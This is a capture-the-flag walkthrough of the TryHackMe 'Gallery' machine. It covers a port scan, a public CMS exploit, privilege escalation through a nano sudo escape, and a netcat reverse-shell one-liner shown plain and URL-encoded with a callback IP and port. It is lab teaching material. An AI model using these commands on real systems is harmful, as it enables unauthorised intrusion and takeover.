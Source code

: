 ```yaml
---
title: Gallert - Writeup
author: Elman Alizadeh
date: 2021-04-18 14:10:00 +0800
categories: [ctf, TryHackMe]
tags: [tryhackme, gallery]
---
```


Today we will take a look at TryHackMe: Gallery. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/thm-gallery/1.png" | relative_url }})

## Question: How many ports are open?

Command: sudo nmap -sS -sC -sV -oN nmap/initial 10.10.157.45

![Desktop View]({{ "/assets/img/thm-gallery/2.png" | relative_url }})

## Question: What’s the name of the CMS?

![Desktop View]({{ "/assets/img/thm-gallery/3.png" | relative_url }})

Answer: S***** I**** G******

I searched for a suitable exploit and found it

[Exploit](https://www.exploit-db.com/exploits/50214)

Let’s exploit.

Command: locate 50214.py

Command: searchsploit -m /usr/share/exploitdb/exploits/php/webapps/50214.py

Command: python 50214.py

![Desktop View]({{ "/assets/img/thm-gallery/4.png" | relative_url }})

## Get Reverse Shell

```console
Command: rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4242 >/tmp/f
```

But first let’s encode

[Url_encode](https://www.urlencoder.org/)

Command: rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.8.223.65%204242%20%3E%2Ftmp%2Ff%0A

Enter these commands after receiving the Reverse Shell

Command: script /dev/null -c bash

Command: export TERM=xterm

Command: ctrl+z

Command: stty raw -echo ; fg

Command: reset

![Desktop View]({{ "/assets/img/thm-gallery/5.png" | relative_url }})

Let’s enumerate the machine with linpeas.sh.

[Linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

![Desktop View]({{ "/assets/img/thm-gallery/6.png" | relative_url }})

Here we found the necessary credentials credentials

![Desktop View]({{ "/assets/img/thm-gallery/7.png" | relative_url }})

Let’s change the user.

Command: su mike

![Desktop View]({{ "/assets/img/thm-gallery/8.png" | relative_url }})

## Privilege Escalation

Let’s look at the file rootkit.sh

![Desktop View]({{ "/assets/img/thm-gallery/9.png" | relative_url }})

Here we can use nano to get a shell. Let’s take a look at this

[Gtfo/nano](https://gtfobins.github.io/gtfobins/nano/)

Command: sudo -u root /bin/bash /opt/rootkit.sh

Command: read

Command: CTRL+R

Command: CTRL+X

Command: reset; sh 1>&0 2>&0

![Desktop View]({{ "/assets/img/thm-gallery/10.png" | relative_url }})

## And now we are the root

![Desktop View]({{ "/assets/img/thm-gallery/1.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”







